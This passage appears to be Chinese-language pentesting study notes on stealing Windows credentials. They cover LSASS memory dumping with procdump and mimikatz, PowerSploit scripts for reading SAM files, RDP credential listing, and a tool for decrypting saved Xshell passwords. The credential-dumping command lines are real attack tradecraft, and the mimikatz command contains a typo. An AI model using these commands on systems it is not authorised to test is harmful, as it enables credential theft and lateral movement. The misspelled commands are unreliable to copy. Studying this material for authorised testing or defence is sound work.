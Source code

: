 https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1

> **PowerSploit**提供的**转储进程内存**：Out-Minidump.ps1

#### Procdump

下载地址：https://learn.microsoft.com/en-us/sysinternals/downloads/procdump

```nginx
# 上传到目标机执行进行转储
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# 
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpassowrd full" exit
```

### Sharpdump

下载地址：https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=HackTool:Win32/SharpDump&ThreatID=2147742592



### 在线读sam文件

**使用minikatz**



### 离线读sam文件

> window防止sam文件被离线破解，会对sam文件进行加密，密匙文件再SYSTEM文件中

由于系统再运行时这个两个文件是被锁定的，所有需要借助脚本工具去获取

> **PowerSploit提供的：Invoke-NinjaCopy.ps1(71页)**
>
> https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1





### 获取常见应用凭证

#### 获取RDP凭证

```nginx
# 查看当前主机保存的连接凭证
cmdkey /list
```

可使用mimiktz工具导出Credentials目标下的指定RDP连接凭证（74页）



#### 获取Xshell和各种连接软件凭证

下载地址：https://github.com/uknowsec/SharpDecryptPwd

**SharpDecryptPwd**
